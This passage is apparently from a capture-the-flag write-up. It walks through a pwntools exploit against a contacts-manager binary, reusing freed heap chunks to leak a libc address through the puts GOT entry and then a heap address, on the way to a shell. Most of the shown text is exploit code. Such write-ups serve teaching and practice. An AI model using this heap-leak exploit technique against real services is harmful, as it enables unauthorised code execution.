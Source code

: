 ```python
        r.sendafter('be?\n', bio_length)
    else:
        r.sendlineafter('be?\n', bio_length)
    r.sendlineafter('bio:\n', bio)
    r.recvuntil('\n')
    

def display():
    global r
    
    menu()
    r.sendline('display')
    return r.recvuntil('\nEnter')[:-len('\nEnter')]
    
    
if __name__ == '__main__':
    is_remote = True
    if len(sys.argv) > 1:
        if sys.argv[1] in ['-d', '-D']:
            is_remote = False
    exploit(is_remote)
```

![leaked_libc](Images/leaked_libc.png)  

It worked!! Leaking libc is always a great step towards a shell :)  

We can do the exact same thing with the address of contacts instead of puts_got_entry and leak an address in the heap.  

Let's modify our exploit function.  

```python
def exploit(is_remote):
    global r, contacts_count
    
    if is_remote:
        r = remote(remote_ip, port)
        """ Identified the provided libc."""
        libc = ELF('/home/ubuntu/libc-database/db/libc6_2.23-0ubuntu10_amd64.so')
        print 'remote'
    else:
        r = process(executable)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        print 'local'
    
    
    contacts_addr = 0x6020C0
    puts_got_entry = 0x602020

    """ The following block does the following: 
            1. Create a new chunk with name the size of contact struct (0x10) and set its second qword to puts_got_entry.
            2. Set it's bio to a new chunk with the same size as the contact struct.
            3. Delete it. Free order is: name, bio, chunk
            4. Add a new chunk with name the size of the contact struct. new_chunk = previous_chunk, new_name = previous_bio.
            5. Add a new chunk. new_chunk = previous_name.
            6. The bio field is not zeroed so we will have the previous value stored in it as the current value."""
    first_leak_name = 'LeakLibc' + p64(puts_got_entry)[:-1] 
    add_contact(first_leak_name)
```